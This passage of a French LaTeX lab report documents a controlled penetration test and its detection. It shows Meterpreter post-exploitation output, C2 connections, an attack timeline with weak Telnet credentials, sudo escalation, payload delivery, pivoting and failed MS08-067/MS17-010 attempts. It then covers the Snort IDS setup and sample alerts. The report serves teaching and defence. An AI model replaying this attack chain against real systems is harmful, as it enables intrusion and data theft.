\textbf{Leçon Apprise :} Même un système obsolète (Windows XP 2014) peut résister aux exploits si des patches sont appliqués, ce qui souligne l'importance des mises à jour régulières.

\section{Collecte d'Intelligence (Post-Exploitation)}

En l'absence d'exploitation directe du Windows XP, l'attaquant se concentre sur l'exfiltration de données depuis le serveur DMZ compromis.

\subsection{Modules de Post-Exploitation}

\begin{lstlisting}[caption=Enumeration systeme via post/linux/gather/enum\_system]
		(Meterpreter 2)> use post/linux/gather/enum_system
		(Meterpreter 2)> set SESSION 2
		(Meterpreter 2)> run
		
		[+] Info:
		[+]     Ubuntu 25.04
		[+]     Linux DMZ-WebServer 6.14.0-37-generic x86_64 GNU/Linux
		[*] User accounts stored in loot/20260304_linux_enum_users.txt (43 users)
		[*] Installed Packages stored in loot/20260304_linux_enum_packages.txt (103 KB)
		[*] Running Services stored in loot/20260304_linux_enum_services.txt
		[*] SSH Config stored in loot/20260304_linux_enum_sshd_config.txt (4.1 KB)
		[*] Cron jobs stored in loot/20260304_linux_enum_crons.txt
		[*] Active Connections stored in loot/20260304_linux_enum_netstat.txt
	\end{lstlisting}

\textbf{Résultat :} \textbf{121 KB de données sensibles} exfiltrées en 10 fichiers.

\subsection{Preuve du C2 Persistant}

Dans les connexions actives, les sessions Meterpreter en cours d'exécution sont visibles :

\begin{lstlisting}[style=logstyle,caption=Connexions reseau actives revelant le C2 Meterpreter]
		$ netstat -tulpn | grep 192.168.100.150
		
		tcp  0  0 192.168.10.100:56526  192.168.100.150:4445  ESTABLISHED  4907/meterpreter
		tcp  0  0 192.168.10.100:46182  192.168.100.150:4445  ESTABLISHED  4908/meterpreter
	\end{lstlisting}

\textcolor{success}{\checkmark} \textbf{Persistence Confirmée :} Deux sessions Meterpreter actives vers l'attaquant.

\section{Timeline Complète de l'Attaque}

\begin{table}[H]
	\centering
	\small
	\renewcommand{\arraystretch}{1.3}
	\setlength{\arrayrulewidth}{0.5pt}
	\begin{tabular}{>{\centering\arraybackslash}p{2cm} p{3.5cm} p{6.5cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Heure}} &
		\textcolor{tableheadfg}{\textbf{Phase}} &
		\textcolor{tableheadfg}{\textbf{Action}}                                                                                          \\
		\hline
		\rowcolor{tablerowalt}
		15:08                                   & Reconnaissance       & Scan Nmap complet (1000 ports) identifie Telnet et HTTP          \\

		\rowcolor{tablerowalt}
		15:08:30                                & Initial Access       & Connexion Telnet réussie (telnetuser:test123)                    \\

		15:09                                   & Privilege Escalation & Découverte sudo ALL, élévation vers root                         \\

		\rowcolor{tablerowalt}
		15:09:15                                & Weaponization        & Génération payload meterpreter.elf (250 bytes)                   \\

		15:09:30                                & Delivery             & Téléchargement via wget HTTP:8000                                \\

		\rowcolor{tablerowalt}
		15:09:45                                & Exploitation         & Exécution payload, session Meterpreter établie (PID 4779)        \\

		15:10                                   & C2 Established       & Handler accepte connexion inverse sur 4445/TCP                   \\

		\rowcolor{tablerowalt}
		15:15                                   & Persistence          & Configuration 2 sessions Meterpreter (PID 4907, 4908)            \\

		15:20                                   & Lateral Movement     & Route Metasploit vers 192.168.20.0/24 (LAN) via pivot            \\

		\rowcolor{tablerowalt}
		15:25                                   & Discovery            & Scan SMB/RDP détecte Windows XP:445 via pivot                    \\

		15:28                                   & Reconnaissance       & Empreinte OS confirme Windows XP SP3                             \\

		\rowcolor{tablerowalt}
		15:30                                   & Exploitation Tentée  & MS08-067 / MS17-010 échouent (patches appliqués)                 \\

		15:35                                   & Intelligence         & Modules post-exploitation : 121 KB exfiltrés (43 users, configs) \\

		\rowcolor{tablerowalt}
		15:40                                   & Tunneling            & Port forwarding RDP 3389 établi via Meterpreter                  \\

		\hline
	\end{tabular}
	\caption{Timeline complète : 32 minutes de compromission progressive}
	\label{tab:attack-timeline}
\end{table}

\textbf{Durée Totale :} \textbf{32 minutes} du scan initial à la persistence complète.

\section{Cartographie MITRE ATT\&CK}

Les techniques employées au cours de cette chaîne d'attaque correspondent à un ensemble de tactiques et techniques du framework MITRE ATT\&CK :

\begin{table}[H]
	\centering
	\small
	\renewcommand{\arraystretch}{1.3}
	\setlength{\arrayrulewidth}{0.5pt}
	\begin{tabular}{>{\ttfamily}p{2.8cm} p{4cm} p{6.2cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Tactic}} &
		\textcolor{tableheadfg}{\textbf{ID}}     &
		\textcolor{tableheadfg}{\textbf{Description}}                                                                 \\
		\hline
		\rowcolor{tablerowalt}
		Reconnaissance                           & T1592     & Gather Victim Host Information (Nmap)                  \\

		Initial Access                           & T1078     & Valid Accounts (Telnet credentials)                    \\

		\rowcolor{tablerowalt}
		Execution                                & T1059.004 & Command \& Scripting Interpreter (Unix Shell)          \\

		Privilege Escalation                     & T1548.003 & Sudo and Sudo Caching (escalation vers root)           \\

		\rowcolor{tablerowalt}
		Defense Evasion                          & T1197     & Encrypted Tunnel (Meterpreter TLS)                     \\

		Discovery                                & T1018     & Remote System Discovery (scan SMB via pivot)           \\

		\rowcolor{tablerowalt}
		Lateral Movement                         & T1021.006 & Windows Remote Management (SMB/RDP tentatives)         \\

		Collection                               & T1005     & Data from Local System (enumeration post-exploitation) \\

		\rowcolor{tablerowalt}
		Exfiltration                             & T1041     & Exfiltration Over C2 Channel (121 KB via Meterpreter)  \\

		Command \& Control                       & T1071     & Application Layer Protocol (HTTP, TLS)                 \\

		\rowcolor{tablerowalt}
		Persistence                              & T1547     & Boot or Logon Autostart Execution (sessions multiples) \\
		\hline
	\end{tabular}
	\caption{Techniques MITRE ATT\&CK : correspondance avec la chaîne d'attaque}
	\label{tab:mitre-attack-techniques}
\end{table}

\section{Analyse d'Impact : Ce qui a Échoué à Arrêter l'Attaque}

\subsection{Pare-feu pfSense}

Le pare-feu a correctement filtré les ports fermés (139, 445) et les ports filtrés (autres services). Cependant :

\begin{itemize}
	\item \textbf{Ports autorisés :} Les connexions Telnet et HTTP \textit{étaient} légitimes selon les règles.
	\item \textbf{Port forwarding :} Le NAT 192.168.100.6:23 $\rightarrow$ 192.168.10.100:23 a permis l'accès direct au service.
	\item \textbf{Chiffrement Meterpreter :} Le trafic C2 était TLS, apparaissant comme trafic chiffré normal.
\end{itemize}

\textbf{Verdict :} Le pare-feu a joué son rôle de filtrage L3/L4, mais n'a pas détecté le \textit{contenu} du trafic ni les \textit{intentions} malveillantes.

\subsection{UFW (Pare-feu Hôte)}

Le serveur DMZ avait UFW activé, mais :

\begin{itemize}
	\item UFW ne bloque pas les connexions Telnet entrantes autorisées par configuration.
	\item UFW ne limite pas sudo (responsabilité du système d'exploitation).
	\item UFW n'inspecte pas les payloads Meterpreter.
\end{itemize}

\textbf{Verdict :} Défense par couches insuffisante; UFW seul ne suffit pas sans politiques strictes.

\subsection{Fail2Ban}

Fail2Ban \textit{était} installé sur le serveur, mais :

\begin{lstlisting}[style=logstyle,caption=Configuration Fail2Ban : Telnet non surveille]
$ sudo fail2ban-client status
Status
|- Number of jail:	1
`- Jail list:	sshd

$ sudo fail2ban-client status sshd
Status for the jail: sshd
|- Filter set to: sshd
|- Currently failed:	0
|- Currently banned:	0
\end{lstlisting}

Fail2Ban surveillait uniquement SSH, pas Telnet. Une tentative de connexion Telnet (même avec mauvais mot de passe) n'aurait pas déclenché de bannissement.

\textbf{Verdict :} Outil présent mais non configuré pour Telnet. Configuration incomplète = inefficacité.

\subsection{Segmentation Réseau}

La segmentation DMZ/LAN a \textit{presque} arrêté le pivoting :

\begin{itemize}
	\item DMZ n'était \textit{pas} autorisée par défaut à communiquer avec le LAN.
	\item \textbf{Cependant}, une règle permissive a été ajoutée temporairement pour les besoins pédagogiques.
	\item Sans cette règle, le pivoting aurait été bloqué au niveau pare-feu.
\end{itemize}

\textbf{Verdict :} Segmentation saine mais règle permissive temporaire a cassé l'isolation.

\section{Synthèse : Points Faibles Exploités}

\begin{table}[H]
	\centering
	\small
	\renewcommand{\arraystretch}{1.4}
	\setlength{\arrayrulewidth}{0.5pt}
	\begin{tabular}{p{2.5cm} >{\bfseries}p{2.5cm} p{7cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Couche}}       &
		\textcolor{tableheadfg}{\textbf{Point Faible}} &
		\textcolor{tableheadfg}{\textbf{Impact}}                                                                         \\
		\hline
		\rowcolor{tablerowalt}
		Périmètre                                      & Telnet exposé (port 23)       & Accès initial facile            \\

		Authentification                               & Credentials faibles (test123) & Pas de bruteforce nécessaire    \\

		\rowcolor{tablerowalt}
		Escalade                                       & sudo ALL illimité             & Root instantané                 \\

		Segmentation                                   & Règle DMZ→LAN permissive      & Pivoting possible               \\

		\rowcolor{tablerowalt}
		Détection                                      & Pas d'IDS/alerting            & Aucune visibilité C2            \\

		Monitoring                                     & Fail2Ban non configuré Telnet & Pas de bannissement brute-force \\
		\hline
	\end{tabular}
	\caption{Synthèse des points faibles exploités dans chaque couche défensive}
	\label{tab:weaknesses-exploited}
\end{table}

% ==============================================================================
% CHAPITRE 4 : DÉFENSE ACTIVE - DÉTECTION DES MENACES
% ==============================================================================
\chapter{Détection Active avec Snort (IDS/IPS)}

\section{Transition : du Déploiement à la Validation}

Les chapitres précédents ont montré comment une infrastructure défensive peut être compromise via une chaîne d'attaque progressive. Ce chapitre inverse la perspective : comment aurait-on pu \textit{détecter} ces attaques en temps réel?

La réponse réside dans la \textbf{détection active par inspection profonde de paquets (DPI)} via un système comme \textbf{Snort}.

\section{Snort : Principes Fondamentaux}

\subsection{Définition et Modes}

\textbf{Snort} est un système de détection d'intrusions réseau (NIDS) gratuit et open-source qui :

\begin{itemize}
	\item Capture le trafic réseau en temps réel.
	\item Analyse le contenu des paquets (couche applicative, couche 7 OSI).
	\item Compare à une base de signatures (règles) pour identifier des motifs malveillants.
	\item Génère des alertes ou bloque le trafic selon le mode.
\end{itemize}

\textbf{Deux modes d'opération :}

\begin{description}
	\item[Mode IDS] : Détection passive. Alerte sans intervention (recommandé en début de déploiement).
	\item[Mode IPS] : Prévention active. Blocage du trafic malveillant identifié (plus risqué, nécessite tuning).
\end{description}

Dans ce projet, Snort fonctionne en \textbf{mode IDS} (alerting seul), permettant de collecter des données sans interruptions de service dues à des faux positifs.

\subsection{Couverture Multi-Interfaces}

Snort a été activé sur \textbf{trois interfaces} de pfSense :

\begin{table}[H]
	\centering
	\renewcommand{\arraystretch}{1.4}
	\setlength{\arrayrulewidth}{0.5pt}
	\begin{tabular}{>{\bfseries}p{2.5cm} p{5.5cm} p{5cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{Interface}}        &
		\textcolor{tableheadfg}{\textbf{Trafic Surveillé}} &
		\textcolor{tableheadfg}{\textbf{Détections Attendues}}                                                                        \\
		\hline
		\rowcolor{tablerowalt}
		WAN (em0)                                          & Internet $\rightarrow$ pfSense   & Scans externes, payloads, C2          \\

		DMZ (em1)                                          & DMZ $\leftrightarrow$ Services   & Services compromis, post-exploitation \\

		\rowcolor{tablerowalt}
		LAN (em2)                                          & LAN $\leftrightarrow$ Ressources & Mouvement latéral, exploits internes  \\
		\hline
	\end{tabular}
	\caption{Interfaces Snort et trafic surveillé}
	\label{tab:snort-interfaces-coverage}
\end{table}

\section{Sources de Signatures}

\subsection{Snort GPLv2 Community Rules}

\begin{itemize}
	\item \textbf{Éditeur :} Talos Intelligence (groupe de recherche Cisco)
	\item \textbf{Couverture :} ~3000 signatures certifiées
	\item \textbf{Focus :} Exploits courants, malwares connus
	\item \textbf{Licence :} GPLv2 (open-source, gratuit)
	\item \textbf{Mise à jour :} Hebdomadaire
\end{itemize}

\subsection{Emerging Threats Open (ET Open)}

\begin{itemize}
	\item \textbf{Éditeur :} Proofpoint (anciennement Emergingthreats.net)
	\item \textbf{Couverture :} ~30 000 signatures additionnelles
	\item \textbf{Focus :} Vulnérabilités récentes, 0-days, APTs
	\item \textbf{Licence :} MIT (gratuit, permissif)
	\item \textbf{Mise à jour :} Quotidienne
\end{itemize}

La combinaison de ces deux sources offre une couverture large et actualisée des menaces.

\section{Configuration et Activation}

\subsection{Déploiement sur pfSense}

\begin{enumerate}[leftmargin=*]
	\item \textbf{Installation du paquet :} System $\rightarrow$ Package Manager $\rightarrow$ Snort
	\item \textbf{Activation des sources :} Services $\rightarrow$ Snort $\rightarrow$ Global Settings $\rightarrow$ Sélectionner ET Open + GPLv2
	\item \textbf{Activation par interface :} Services $\rightarrow$ Snort $\rightarrow$ Interfaces $\rightarrow$ Edit (WAN/DMZ/LAN)
	\item \textbf{Mode :} IDS (Blocking Mode : OFF)
	\item \textbf{Apply :} Démarrage des instances Snort
\end{enumerate}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.95\textwidth]{screenshots/snort-global-settings.png}
	\caption{Snort Global Settings: rules sources and IDS policy configuration}
	\label{fig:snort-global-settings}
\end{figure}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.95\textwidth]{screenshots/snort-interfaces.png}
	\caption{Snort IDS Configuration on WAN/DMZ/LAN interfaces (IDS mode)}
	\label{fig:snort-interfaces-config}
\end{figure}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.95\textwidth]{screenshots/snort-interfaces-running.png}
	\caption{Snort IDS Configuration on WAN/DMZ/LAN interfaces (IDS mode)}
	\label{fig:snort-interfaces-active}
\end{figure}

\section{Détection en Temps Réel : Alertes Observées}

\subsection{Alerte WAN \#1 : Transfert de Payload ELF}

Au moment où le binaire meterpreter.elf est téléchargé, Snort déclenche une alerte :

\begin{lstlisting}[style=logstyle,caption=Alerte WAN : detection executable ELF download]
Alert Time: 2026-03-14 22:21:02
Interface: WAN (em0)
Priority: 1 (Critical)
Protocol: TCP
Class: Potential Corporate Privacy Violation

Source IP:Port: 192.168.100.150:4445
Dest IP:Port: 192.168.100.6:19767

GID:SID: 1:2000418
Message: ET POLICY Executable and linking format (ELF) file download
\end{lstlisting}

\textbf{Interprétation :}
\begin{itemize}
	\item \textbf{SID 1:2000418} identifie une signature Emerging Threats.
	\item \textbf{ET POLICY} indique une violation de politique (transfert de binaire).
	\item \textbf{Source 192.168.100.150} = attaquant Parrot
	\item \textbf{Dest 192.168.100.6:19767} = trafic intra-réseau local (HTTP upload simulé)
	\item \textbf{Signature} : Snort a reconnu les magic bytes ELF (\texttt{0x7F 0x45 0x4C 0x46})
\end{itemize}

\textcolor{success}{\checkmark} \textbf{Détection réussie} : Snort a identifié le transfert du payload malveillant avant son exécution.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.95\textwidth]{screenshots/wan-alerts.png}
	\caption{WAN interface alerts}
	\label{fig:wan-alerts-capture}
\end{figure}

\subsection{Alerte LAN \#2 : Sonde MS17-010 (EternalBlue)}

Lors de la tentative d'exploitation MS17-010, Snort déclenche une alerte interne :

\begin{lstlisting}[style=logstyle,caption=Alerte LAN : detection MS17-010 EternalBlue probe]
Alert Time: 2026-03-04 15:28:14
Interface: LAN (em2)
Priority: 1 (Critical)
Protocol: TCP
Class: A Network Trojan was Detected

Source IP:Port: 192.168.10.100:44152
Dest IP:Port: 192.168.20.50:445

GID:SID: 1:2025992
Message: ET EXPLOIT Possible ETERNALBLUE Probe MS17-010 (Generic Flags)
\end{lstlisting}

\textbf{Interprétation Critique :}
\begin{itemize}
	\item \textbf{Source 192.168.10.100} = serveur DMZ compromis (pivot)
	\item \textbf{Dest 192.168.20.50:445} = Windows XP (cible secondaire SMB)
	\item \textbf{Signature} : Détecte les flags TCP et séquences typiques d'une sonde EternalBlue
	\item \textbf{Classification} : "Network Trojan" = activité fortement suspecte
\end{itemize}

\textbf{Apport Défensif Majeur :}

Le pare-feu, lui, voyait simplement : "flux TCP DMZ→LAN:445 AUTORISÉ selon règles". Snort, en revanche, analyse le contenu et reconnaît le pattern d'une tentative d'exploitation, fournissant un \textbf{contexte d'attaque} indispensable.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.95\textwidth]{screenshots/snort-alerts-lan.png}
	\caption{Real Snort IDS Alerts: ELF payload detection + MS17-010 probe}
	\label{fig:snort-alerts-lan-capture}
\end{figure}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.95\textwidth]{screenshots/lan-alerts.png}
	\caption{Real Snort IDS Alerts: ELF payload detection + MS17-010 probe}
	\label{fig:lan-alerts-capture}
\end{figure}

\subsection{Synthèse des Alertes}
\begin{table}[H]
	\centering
	\small
	\renewcommand{\arraystretch}{1.4}
	\setlength{\arrayrulewidth}{0.5pt}
	\begin{tabular}{>{\centering\arraybackslash}p{1.8cm} p{2.8cm} p{2.8cm} p{5.6cm}}
		\arrayrulecolor{tableborder}
		\hline
		\tableheadcolor
		\textcolor{tableheadfg}{\textbf{ID}}        &
		\textcolor{tableheadfg}{\textbf{Interface}} &
		\textcolor{tableheadfg}{\textbf{SID}}       &
		\textcolor{tableheadfg}{\textbf{Alerte}}                                                                                  \\
		\hline
		\rowcolor{tablerowalt}
		1                                           & WAN & 1:2000418 & ET POLICY ELF download (transfert payload)                \\

		2                                           & LAN & 1:2025992 & ET EXPLOIT MS17-010 EternalBlue probe (mouvement lateral) \\

		\rowcolor{tablerowalt}
		3                                           & DMZ & 1:2005677 & ET POLICY GNU/Linux APT User-Agent (apt-get update)       \\

		4                                           & DMZ & 1:2010937 & http\_inspect HTTP Anomaly (requests malformees)          \\
		\hline
	\end{tabular}
	\caption{Résumé des alertes Snort déclenchées lors de la chaîne d'attaque}
	\label{tab:snort-alerts-summary}
\end{table}

\section{Faux Positifs et Tuning}

Parallèlement aux vraies alertes, Snort déclenche des alertes sur du trafic légitime :

\subsection{Faux Positif \#1 : APT User-Agent}

\begin{lstlisting}[style=logstyle,caption=Faux positif: GNU/Linux APT detecte comme anomalie]
	Alert Time: 2026-03-04 15:18:32
	Interface: DMZ (em1)
	Priority: 2 (High)
	SID: 1:2005677
	Message: ET POLICY GNU/Linux APT User-Agent Outbound likely related to package management
	
